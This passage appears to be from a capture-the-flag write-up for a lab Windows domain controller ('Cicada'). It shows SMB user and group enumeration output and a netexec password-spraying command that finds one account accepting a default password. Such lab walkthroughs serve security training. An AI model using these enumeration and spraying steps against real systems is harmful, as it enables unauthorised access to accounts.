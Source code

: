 ```jsx
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

```
Identifying Interesting Users

```jsx
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Verifying Default Passwords for Users

```jsx
netexec smb 10.10.11.35 -u email.txt  -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```
